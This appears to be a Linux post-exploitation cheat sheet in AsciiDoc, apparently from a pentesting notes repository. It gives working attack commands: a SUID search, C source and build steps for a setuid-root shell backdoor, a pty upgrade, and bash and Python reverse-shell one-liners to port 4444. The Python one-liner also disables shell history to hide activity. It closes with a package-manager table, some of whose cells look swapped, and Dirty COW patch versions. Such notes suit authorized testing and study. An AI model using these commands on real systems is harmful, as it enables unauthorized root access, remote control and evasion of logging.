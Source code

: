 === Linux

==== Find interesting things

   find / -perm /6000 -type f -ls 2>/dev/null

SUID binaries

   printf 'int main(void){\nsetresuid(0,0,0);\nsetregid(0,0,0);\nsystem("/bin/sh");\n}' > /tmp/suid.c
   gcc -static -O3 -o suid suid.c
   strip suid
   chown root:root suid
   chmod a+s suid

A simple suid binary that runs a shell.

==== TTYs

  python -c 'import pty; pty.spawn("/bin/bash")'

Upgrade your current session to one with a pty.

==== Reverse Shells

===== Bash

  bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'

The first `bash` has to be bash, to get the tcp support used later on. The second `bash` could be any other shell or program.

===== Python

  python -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); \
  s.connect(("127.0.0.1", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); \
  os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash"); \
  s.close()'

This also sets up the tty from earlier and "nulls out" the path to the history file, so your commands aren't saved on the target.

<<<

==== Package Managers

|===
|Action |apt |dpkg |yum |rpm
|List
|->
|`dpkg -l`
|`yum list installed`
|`rpm -qa`

|Search available
|`apt-cache search P`
|_n/a_
|`yum search P`
|_n/a_

|Install
|`apt install P`
|`dpkg -i P.deb`
|`yum install P`
|`rpm -i P.rpm` or `rpm -U P.rpm`

|Remove
|`dpkg -P P`
|`apt remove P`
|`yum remove P`
|`rpm -e P`

|Check for corruption
|_n/a_
|`debsums -as`
|_n/a_
|`rpm -Va`


|===
==== Exploits
===== CVE-2016-5195 DirtyC0w

Patched in:

|===
|4.8.0-26.28 |Ubuntu 16.10
|4.4.0-45.66 |Ubuntu 16.04 LTS
|3.13.0-100.147 |Ubuntu 14.04 LTS
|3.2.0-113.155 |Ubuntu 12.04 LTS
|3.16.36-1+deb8u2 |Debian 8
|3.2.82-1 |Debian 7
|4.7.8-1 |Debian unstable
|===

<<<
